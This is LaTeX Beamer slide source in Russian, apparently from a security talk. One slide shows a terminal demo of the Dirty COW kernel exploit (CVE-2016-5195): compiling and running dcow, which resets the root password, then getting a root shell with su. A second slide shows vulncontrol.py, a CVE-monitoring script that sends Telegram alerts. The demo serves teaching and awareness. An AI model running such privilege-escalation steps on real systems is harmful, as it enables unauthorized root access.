 
\section{Эксплуатация CVE-2016-5195}

\begin{frame}
\frametitle{\insertsection}
\framesubtitle{<<Dirty COW>> (Copy-on-write)}

{\small \texttt{\$ id \\
{\color{green} uid=1000(dcow)} gid=1000(dcow) groups=1000(dcow)
}}

\vspace{\baselineskip}

{\small \texttt{\$ g++ dcow.cpp -std=c++11 -pthread -lutil -o dcow \\
\$ ./dcow \\
Running ... \\
Received su prompt (Password: ) \\
Root password is: dirtyCowFun \\
Enjoy! :-)}}

\vspace{\baselineskip}

{\small \texttt{\$ su root \\
Password: dirtyCowFun \\
\# id \\
{\color{red} uid=0(root)} gid=0(root) groups=0(root)
}}
\end{frame}


\section{Мониторгинг уязвимостей}

\begin{frame}
\frametitle{\insertsection}
\framesubtitle{https://github.com/Amet13/vulncontrol}

{\scriptsize \texttt{\$ ./vulncontrol.py −d 2017−02−18 −m 5 -t \$TOKEN \$ID \\
CVE−2017−6074 9.3 http://www.cvedetails.com/cve/CVE−2017−6074/ \\
CVE−2017−6001 7.6 http://www.cvedetails.com/cve/CVE−2017−6001/ \\
CVE−2017−5986 7.1 http://www.cvedetails.com/cve/CVE−2017−5986/ \\
Telegram alert sent
}}

\begin{figure}
    \center
    \texttt{[image: tscreen]}
\end{figure}
\end{frame}

